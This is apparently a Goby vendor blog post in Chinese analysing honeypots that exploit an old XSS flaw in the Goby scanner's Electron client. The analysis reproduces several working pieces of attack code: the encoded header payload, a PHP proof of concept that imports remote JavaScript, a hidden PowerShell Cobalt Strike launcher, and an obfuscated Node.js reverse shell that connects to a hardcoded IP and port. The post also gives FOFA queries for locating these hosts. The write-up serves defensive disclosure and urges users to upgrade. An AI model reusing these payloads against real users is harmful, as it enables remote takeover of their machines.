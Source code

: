 # 0x01 概述

近期我们联动FORadar做了一个插件，实现了从企业名称->企业漏洞的全自动检测流程，在做具体实践的时候碰到了两个很有意思的蜜罐，其中一个蜜罐内置了Weblogic漏洞，同时配置有专门针对旧版本Goby反制Payload，而另一个蜜罐则具备较强的隐蔽性，若非团队有专门研究蜜罐的人员，差点栽在这个蜜罐上，当然，这篇文章主要想聊聊第一个蜜罐，第二个有机会再单独拿出来探讨。

# 0x02 缘起
![在这里插入图片描述](https://img-blog.csdnimg.cn/4097a5d01eb34a558af7adfc43fbfcd8.png#pic_center)


故事的最开始，自然是使用Goby检测到了一个WebLogic远程代码执行漏洞，准备利用此漏洞进行后续动作的时候，团队成员发现这个目标并不简单：
![在这里插入图片描述](https://img-blog.csdnimg.cn/0220647644ee4df18e146a4fa42cdff7.jpeg#pic_center)

在返回包的头部中携带着反制Payload（IP已做脱敏处理）；

```html
X-Powered-By: PHP/7&#38;&#35;&#56;&#54;&#59;&#38;&#35;&#49;&#49;&#48;&#59;&#38;&#35;&#55;&#55;&#59;&#38;&#35;&#54;&#54;&#59;&#38;&#35;&#55;&#49;&#59;&#38;&#35;&#55;&#52;&#59;&#38;&#35;&#56;&#55;&#59;&#38;&#35;&#49;&#49;&#55;&#59;&#38;&#35;&#53;&#55;&#59;&#38;&#35;&#56;&#53;&#59;&#38;&#35;&#49;&#48;&#52;&#59;&#38;&#35;&#49;&#49;&#48;&#59;<img	src=1	onerror=&#x69;&#x6d;&#x70;&#x6f;&#x72;&#x74;&#x28;&#x75;&#x6e;&#x65;&#x73;&#x63;&#x61;&#x70;&#x65;&#x28;&#x27;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x31;&#x32;&#x37;&#x2e;&#x30;&#x2e;&#x30;&#x2e;&#x31;&#x3a;&#x38;&#x30;&#x38;&#x30;&#x2f;&#x56;&#x6e;&#x4d;&#x42;&#x47;&#x4a;&#x57;&#x75;&#x39;&#x55;&#x68;&#x6e;&#x2f;&#x4e;&#x6f;&#x64;&#x65;&#x2e;&#x6a;&#x73;&#x27;&#x29;&#x29;>
```

显然这是一串经过HTML实体编码的代码，让我们解码看看；

```html
X-Powered-By: PHP/7&#86;&#110;&#77;&#66;&#71;&#74;&#87;&#117;&#57;&#85;&#104;&#110;<img	src=1	onerror=import(unescape('http://127.0.0.1:8080/VnMBGJWu9Uhn/Node.js'))>
```

在这个逻辑上就显而易见了，这是一个常见的XSS Payload，目的是希望执行`/VnMBGJWu9Uhn/Node.js`文件，那么让我们来看看这个js文件；
![在这里插入图片描述](https://img-blog.csdnimg.cn/d932de475a7c4bb9b8fcc338080c2e58.png#pic_center)


可以看到这是一串nodejs的利用代码，作用并不复杂，首先定义一个download函数，从远端下载文件，然后根据操作系统，来下载不同的恶意文件，如果是Windows则直接下载可执行文件，如果是MAC则下载Python3脚本文件，执行Python脚本；

那么现在问题来了，为啥这样就能反制Goby呢？这实际上是一个非常久远的历史漏洞，最早的纰漏的时间是在2021年10月，当月漏洞就已修复并发布新版本，至于漏洞为何存在，得追溯到Goby的组件识别能力，Goby使用Electron构建客户端软件，在Goby的资产界面中，会展示所有符合指纹识别规则的组件名称，比如PHP、IIS等，而为了更为精准的组件识别，Goby会从返回的数据报文中提取版本信息，并在界面渲染展示，在旧版本的Goby中并未对版本信息做无害化处理，从而导致漏洞产生。

# 0x03 缘起如果我用的Goby存在这个漏洞会怎样？

在达成条件之后，这个漏洞能够带来的后果非常严重，可以被反制方直接控制Goby所在的PC，但幸运的是这个漏洞并不是一个0click漏洞，需要Goby的使用人员来配合交互才能达成触发条件。
![在这里插入图片描述](https://img-blog.csdnimg.cn/6f5c7c20884c4f488411bda809ab93af.png#pic_center)


如你所见，这是正常的资产界面，以及版本信息提取结果，但可以通过构造HTTP头部的方式，来对版本信息进行调整，比如这样：

```php
#index.php
<?php
header("X-Powered-By: PHP/<img\tsrc=\"x\"\tonerror=\"alert(1);\">");
?>
```

此时，用户在Goby界面上看到的结果是这样的：

![在这里插入图片描述](https://img-blog.csdnimg.cn/d03b04b8a1a04672b616853c8bdd2d63.jpeg#pic_center)


在界面上可以很清楚的看到反制方所使用的payload，该页面上并不会触发XSS代码，但如果此时只要点击进入IP详情界面，如下图所示，就会触发XSS代码

![在这里插入图片描述](https://img-blog.csdnimg.cn/c44e2d1d4d2548fa9c140012adc9a0cf.jpeg#pic_center)


反制方当然可以利用此漏洞做更多的事情，可以跟上述蜜罐设备一样从远端下载恶意文件并触发执行，也可以直接调用Powershell执行ShellCode，上线CS：

```php
# index.php
<?php
header("X-Powered-By: PHP/<img\tsrc=\"x\"\tonerror=import(unescape('http%3A//119.**.**.135%3A18899/js/1.js'))>");
?>
```

```js
// /js/1.js
(function(){require('child_process').exec('powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAc......(省略)');})();

```

当用户点击进入IP详情页面后，不会有任何感知，但实际上已经悄然执行powershell代码
![在这里插入图片描述](https://img-blog.csdnimg.cn/c763d5f1da7e4bcb9e90ddc208c4b06a.jpeg#pic_center)


成功上线CS

![在这里插入图片描述](https://img-blog.csdnimg.cn/df5b2c30d0b74ccaac1a1c1ac9a9fea7.jpeg#pic_center)


所以，尽快升级Goby到最新版本吧~~，除了自身漏洞的修复，我们也一直在推出更多好用、实用的新功能期待师傅们的体验和反馈。

# 0x04 还有多少个蜜罐在望眼欲穿呢？

正如我们前文所说，这是一个已经修复近两年前的漏洞了，但是在全球范围内，仍然有着大量的蜜罐设备，再等待着某一个仍然使用旧版本Goby的好心人，我们可以使用一条FOFA语法便可以很快的找到这些目标：

```bash
header="img" && header="onerror"
```

可以看到，在全球范围内，有近1899条蜜罐记录，其Payload也大同小异，与前文碰到的蜜罐设备一致，有意思的是在境外也有数十条记录（~~老外也想反制Goby？~~）。

而从产品分布的角度来说，这类蜜罐广泛覆盖在：深信服VPN、致远OA、RANZHIOA、泛微OA、phpMyAdmin等在攻防场景中广泛涉及的产品和应用，师傅们碰到这些资产可要多个心眼。
![在这里插入图片描述](https://img-blog.csdnimg.cn/b3fe8dc14d6b4b36b7d4318797f5763a.png#pic_center)


![在这里插入图片描述](https://img-blog.csdnimg.cn/6e52b8829226455c8101aaa2d2ca1b7f.png#pic_center)



我们也可以对Fofa语法进行略微的调整，看看有没有一些新东西

```bash
header="img" && header="onerror" && header!="PHP"
```

剔除掉同类蜜罐后，仅剩下160条记录，明显有着与之前蜜罐设备不同的利用方式
![在这里插入图片描述](https://img-blog.csdnimg.cn/df09f55ecdf445a9be0343c96fb13667.png#pic_center)


```bash
X-Powered-By: <img src=# onerror=window.open('https://202.**.***.12/help.html')>
```

跟进到help.html之后，发现是一个经过混淆的Payload

```html
<!-- help.html !-->
<!DOCTYPE HTML>
<html>
<head>
    <meta charset="utf-8" />
    <script>
        var _0x1c94=['temp.js','utf8','writeFile','uuid','child_process','fork','/tmp/temp.js'];var _0x4cc5=function(_0x1c94c3,_0x4cc551){_0x1c94c3=_0x1c94c3-0x0;var _0x3be382=_0x1c94[_0x1c94c3];return _0x3be382;};var _0x551876='';var _0x840f11='\x0avar\x20_0x411b=[\x27net\x27,\x27child_process\x27,\x27platform\x27,\x27spawn\x27,\x27/bin/bash\x27,\x27Socket\x27,\x27connect\x27,\x27stdout\x27,\x27pipe\x27];var\x20_0x4b64=function(_0x411be0,_0x4b6451){_0x411be0=_0x411be0-0x0;var\x20_0x278a8f=_0x411b[_0x411be0];return\x20_0x278a8f;};var\x20_0x1f656a=\x27106.75.15.34\x27;var\x20_0xb2ca98=\x2722220\x27;(function(){var\x20_0x58cd49=require(\x27os\x27);var\x20_0x20a0b2=require(\x27fs\x27);var\x20_0x2af086=require(_0x4b64(\x270x0\x27));var\x20_0x597913=require(_0x4b64(\x270x1\x27));var\x20_0x269932=_0x58cd49[_0x4b64(\x270x2\x27)]();if(_0x269932==\x27win32\x27){var\x20_0x16b7e1=_0x597913[\x27spawn\x27](\x27cmd\x27,[]);}else{var\x20_0x16b7e1=_0x597913[_0x4b64(\x270x3\x27)](_0x4b64(\x270x4\x27),[\x27-i\x27]);}var\x20_0x293f60=new\x20_0x2af086[(_0x4b64(\x270x5\x27))]();_0x293f60[_0x4b64(\x270x6\x27)](_0xb2ca98,_0x1f656a,function(){_0x293f60[\x27pipe\x27](_0x16b7e1[\x27stdin\x27]);_0x16b7e1[_0x4b64(\x270x7\x27)][_0x4b64(\x270x8\x27)](_0x293f60);_0x16b7e1[\x27stderr\x27][\x27pipe\x27](_0x293f60);});return/a/;}());\x0a';var _0x2b76a6=require('fs');var _0x512c82=require('os')['platform']();if(_0x512c82=='win32'){_0x2b76a6['writeFile'](_0x4cc5('0x0'),_0x840f11,_0x4cc5('0x1'),function(_0x4af088){});_0x2b76a6[_0x4cc5('0x2')](_0x4cc5('0x3'),_0x551876,_0x4cc5('0x1'),function(_0x3e2b1c){});require(_0x4cc5('0x4'))[_0x4cc5('0x5')](_0x4cc5('0x0'),{'detached':!![]});}else{_0x2b76a6[_0x4cc5('0x2')](_0x4cc5('0x6'),_0x840f11,_0x4cc5('0x1'),function(_0x261f0f){});_0x2b76a6['writeFile']('/tmp/uuid',_0x551876,'utf8',function(_0x474cc8){});require('child_process')['fork'](_0x4cc5('0x6'),{'detached':!![]});}
    </script>
</head>

<body>
</body>
</html>
```

虽然绝大部分代码已经经过混淆，但不难看出Payload的用意是将恶意文件写入磁盘并调用执行，但从最初的语法来说，这应该并不止针对于Goby的蜜罐设备，在Goby中没能，推测可能是某一种扫描器，该扫描器使用了某种框架 ，既集成了浏览器的解析环境，又可以直接在该浏览器的解析环境中调用node.js的代码，从而触发反制者的Payload。

# 0x05 尾声

到这里关于蜜罐的分析就结束了，也提前预告一下我们最近在为Goby实战场景的最佳实践做了大量的测试，目前也小有收获，近期会发布相关版本和文章，希望师傅们保持关注不要错过~

# 0x06 参考

- [闲来无事，反制Goby](https://mp.weixin.qq.com/s/EPQZs5eQ4LL--tao93cUfQ)




Goby 官网: https://gobysec.net/
如果您有任何反馈建议，您可通过提交 issue 或是以下方式联系我们：
GitHub issue: https://github.com/gobysec/Goby/issues
微信群：关注公众号“GobySec“，回复暗号”加群“ （社群优势：可第一时间了解Goby功能发布、活动等咨询）
Telegram Group: http://t.me/gobies
推特：https://twitter.com/GobySec
